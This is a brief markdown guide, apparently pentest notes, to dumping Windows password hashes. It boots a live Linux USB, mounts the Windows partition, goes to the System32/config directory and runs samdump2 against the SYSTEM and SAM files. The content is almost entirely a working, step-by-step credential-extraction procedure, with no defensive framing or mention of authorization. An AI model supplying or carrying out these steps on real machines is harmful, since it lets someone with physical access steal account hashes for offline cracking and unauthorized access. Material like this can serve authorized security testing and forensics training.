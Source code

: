 # Dump Windows Hashes via Live Linux Boot

## Before you Start

1. Turn off the Windows machine.
2. Plug in Bootable Linux USB.
3. Power on the machine and boot to the Linux USB.

## Extract Hashes

#### Access Windows Files
 - Make a New Directory
```bash
mkdir folder_name
```

 - List block devices
```bash
lsblk
```

 - Mount the device
```bash
mount /dev/partition_name folder_name
```


 - Check file system (-h for human readable)
```bash
df -h
```


#### Dump the Hashes
 - Navigate to `C:/Windows/System32/config` then run the command:
```bash
samdump2 SYSTEM SAM
```